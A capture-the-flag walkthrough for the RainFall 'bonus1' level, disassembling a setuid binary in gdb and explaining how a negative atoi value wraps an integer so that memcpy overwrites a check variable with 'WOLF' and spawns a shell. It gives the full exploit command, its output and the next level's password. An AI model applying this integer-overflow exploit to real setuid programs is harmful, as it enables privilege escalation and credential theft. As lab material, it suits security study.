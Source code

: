 # Bonus 1

- We login as user bonus1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ gdb bonus1
```

```
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp

   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>

   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>

   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>

   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave  
   0x080484a4 <+128>:   ret    
End of assembler dump.
```

- Let's highlight the most important parts of the program:
```
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
```
> Convert the first argument of the program to an integer using `<atoi@plt>`, then compare it with the integer 9. If it is greater, return.

```
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
```
> Copy n bytes into `[esp+0x14]` from the second argument of the program, where n is the result of atoi multiplied by 4.

```
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
```
> `0x8048583: "/bin/sh"`

> Subsequently, if the value at `0x3c(%esp)` is equal to 0x574f4c46 ("WOLF"), open a shell.

- So, by providing a negative number as first argument, it allows us to write enough into memory to place 'WOLF' (backwards) at 0x3c(%esp):
```
bonus1@RainFall:~$ ./bonus1 -1073741800 ABCDEFGHIJKLMNOPQRSTUVWXYZABCDEFGHIJKLMNFLOW

$ whoami
bonus2

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```